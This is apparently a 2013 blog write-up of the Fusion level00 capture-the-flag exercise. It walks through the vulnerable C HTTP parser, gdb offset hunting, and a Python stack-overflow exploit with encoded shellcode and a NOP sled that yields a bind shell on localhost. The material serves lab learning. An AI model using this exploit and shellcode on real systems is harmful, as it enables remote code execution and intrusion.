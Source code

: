 +++
author = "pwntester"
categories = ["CTF", "Fusion", "level00", "exploit"]
date = 2013-12-27T17:45:00Z
description = ""
draft = false
slug = "fusion-level00-write-up"
tags = ["CTF", "Fusion", "level00", "exploit"]
title = "Fusion level00 write-up"

+++

## Fusion level00
This [level](http://exploit-exercises.com/fusion/level00) has no protections at all:

![](/images/octopress/fusion00.png)

The code looks like:

```lang-clike line-numbers 
#include "../common/common.c"

int fix_path(char *path)
{
  char resolved[128];

  if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
  strcpy(path, resolved);
}

char *parse_http_request()
{
  char buffer[1024];
  char *path;
  char *q;

  // printf("[debug] buffer is at 0x%08x :-)\n", buffer); :D

  if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
  if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request");

  path = &buffer[4];
  q = strchr(path, ' ');
  if(! q) errx(0, "No protocol version specified");
  *q++ = 0;
  if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol");

  fix_path(path);

  printf("trying to access %s\n", path);

  return path;
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *p;

  background_process(NAME, UID, GID);
  fd = serve_forever(PORT);
  set_io(fd);

  parse_http_request();
}
```

The goal seems to overflow the "resolved" buffer and use a return access in the "buffer" somewhere after the "HTTP/1.1" protocol.

First we need to know what is the right offset to overflow the "resolved" buffer. It should be 128, but with compilers you never know.

We will be monitoring the application with gdb in its follow fork child mode:

```lang-bash line-numbers 
fusion@fusion:~$ sudo gdb -q /opt/fusion/bin/level00
Reading symbols from /opt/fusion/bin/level00...done.
(gdb) attach 1191
Attaching to program: /opt/fusion/bin/level00, process 1191
Reading symbols from /lib/i386-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.13.so...done.
done.
Loaded symbols for /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/ld-linux.so.2...(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
0xb7873424 in __kernel_vsyscall ()
(gdb)  set follow-fork-mode child
(gdb) c
Continuing.
```

We start with 128 As and keep trying to find the right offset that is a path of 140 bytes (Im too lazy to use msg patters :) ):

```lang-bash line-numbers 
fusion@fusion:~$ python -c 'print "GET " + "A"*139 + "DDDD" + " HTTP/1.1"' | nc localhost 20000
[debug] buffer is at 0xbfcdf1c8 :-)
```

We can see in gdb that we got the right offset:

```lang-bash line-numbers 
(gdb) attach 1399
Attaching to program: /usr/bin/id, process 1399
Reading symbols from /lib/ld-linux.so.2...(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
0xb7829424 in __kernel_vsyscall ()
(gdb) c
Continuing.
[New process 1445]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1445]
0x44444444 in ?? ()
```

Now lets use the buffer address returned by the application + 160 bytes to land in our nop sled and reuse one of our shellcodes:

```lang-python line-numbers 
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 20000))

shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xedDBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIAJDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJOBLAALMNIA"

ret = "\x68\xf2\xcd\xbf" #0xbfcdf268
payload =  "GET " + "A"*139 + ret + " HTTP/1.1 " + "\x90"*16 +  shellcode
s.send(payload)
s.close()
```

After running the exploit we can collect our shell:

```lang-bash line-numbers 
fusion@fusion:~$ python fusion00.py
fusion@fusion:~$ nc localhost 5074
id
uid=20000 gid=20000 groups=20000
```

